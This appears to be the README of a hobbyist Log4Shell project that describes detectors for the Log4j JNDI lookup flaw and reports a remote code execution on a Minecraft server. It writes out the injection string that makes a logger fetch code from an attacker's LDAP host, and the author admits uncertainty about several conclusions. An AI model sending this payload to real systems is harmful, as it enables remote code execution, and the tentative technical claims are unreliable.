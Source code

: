 # Log4Shell Zero-Day Exploit

if attacker manage to log this string `${jndi:ldap://someaddresshere/param1=value1}`
to log4j it somehow loads the class/java bytecode sent by Attacker Controlled LDAP Server. The bytecode could be used to
execute any malicious code or do some little trolling.

take this with grain of salt, I'm not a security expert.

## Detection

### Patched

- Mitigated by deleting `org.apache.logging.log4j.core.lookup.JndiLookup` somehow didn't crash
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919169712435388466/unknown.png)

### Unpatched

- Note: 1.16.5 Minecraft Server RCE exploit
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919170755843989534/unknown.png)
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919172251771895878/unknown.png)

### [MainDetector.java](standalone-detector/src/main/java/itzbenz/MainDetector.java)

Use simple socket to listen on port 1389 then close the socket once its connected no external dependency

- Note: not always the case, sometimes it doesn't bother to load class url location given by LDAP Server
- Vulnerable to lookup:\
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919166884425900082/unknown.png)

- Log:\
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919166938654072852/unknown.png)

going to throw error if its is vulnerable

### [MainAlerter.java](standalone-detector/src/main/java/itzbenz/MainAlerter.java)

Use `com.unboundid:unboundid-ldapsdk` library to host LDAP server

- Note: doesn't mean it's vulnerable to RCE exploit.
- Vulnerable to lookup:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919168285709312000/unknown.png)
- LADP Server logs:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919171844836311050/unknown.png)

### DNS Log

Both sender and receiver are logged which mean they are vulnerable

- Note: if it's get logged, doesn't mean it's vulnerable to RCE
- Vulnerable to lookup:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919174049861619752/unknown.png)

## Conclusion

- if java do LDAP lookup doesn't mean it is always vulnerable, but if is load the classpath provided then it is ?
  - vulnerable to RCE and LDAP lookup:
    ![](https://cdn.discordapp.com/attachments/919142724114972744/919448027058540554/unknown.png)
  - not vulnerable because java don't fetch bytecode ??, still vulnerable to LDAP lookup:
    ![](https://cdn.discordapp.com/attachments/919142724114972744/919448406924083210/unknown.png)

- to test if it's actually vulnerable to RCE, try to use harmless payloads if its running then its vulnerable.

- if `com.sun.jndi.ldap.object.trustURLCodebase` property is set to `true` then you are vulnerable like really else, the
  attacker can use existing classpath
  ![](https://cdn.discordapp.com/attachments/918290369639227434/919240541810610206/unknown.png)

- if you found the victim log and see this:

```
  Caused by: java.lang.ClassNotFoundException: itzbenz.payload.ObjectPayloadSerializable
        at java.net.URLClassLoader.findClass(Unknown Source)
        at java.lang.ClassLoader.loadClass(Unknown Source)
        at sun.misc.Launcher$AppClassLoader.loadClass(Unknown Source)
        at java.lang.ClassLoader.loadClass(Unknown Source)
  ```

it's safe because it will not load classpath provided by attacker ?? though it's still doing LDAP lookup which is large
attack surface.

note: (after updating java 8, the minecraft server seem not load the classpath)

# Disclaimer

This project can only be used for educational purposes. Using this software against target systems without prior
permission is illegal, and any damages from misuse of this software will not be the responsibility of the author.
